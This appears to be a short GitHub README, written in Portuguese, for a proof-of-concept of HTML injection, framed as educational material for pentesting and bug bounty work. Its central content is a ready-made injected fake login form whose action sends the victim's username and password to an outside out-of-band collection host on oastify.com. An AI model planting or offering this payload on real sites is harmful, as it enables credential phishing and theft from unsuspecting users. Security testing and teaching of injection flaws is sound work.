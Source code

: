 # HTML-Injection-POC
### **Este código serve para demostra uma ( POC De HTML Injection )**


![HTML](https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white)

## Descrição

Este repositório contém um exemplo de um formulário HTML simples de login. O objetivo deste código é demonstrar a estrutura básica de um formulário de autenticação e como ele pode ser manipulado para fins educativos, como parte de estudos de segurança e técnicas de pentesting.

## Objetivo do Código

Este código serve como uma **Prova de Conceito (PoC)** para testar a forma como um formulário pode ser projetado e manipulado, sem envolver práticas maliciosas. O foco principal é mostrar como um formulário HTML podem ser manipulados . Ele pode ser útil em **testes de segurança**, como **análise de XSS**, **Bug Bounty**, ou outras vulnerabilidades de segurança web.


**Disclaimer:** Este código é fornecido **"como está"**, e o autor não se responsabiliza por qualquer uso inadequado ou malicioso do mesmo. A intenção é puramente educacional.

```html
<h3>Please login to proceed</h3>
<form action=http://abp16yqa8m56p2kznk76xvmnqew5kwakz.oastify.com>
    Username:<br><input type="username" name="username"></br>
    Password:<br><input type="password" name="password"></br><br>
    <input type="submit" value="Login"></br>
</form>
```


## POC NA PRATICA
![Captura-de-tela-2025-02-08-143322.png](https://i.postimg.cc/ydC9cGY5/Captura-de-tela-2025-02-08-143322.png)



## BY: Ivarsatierf

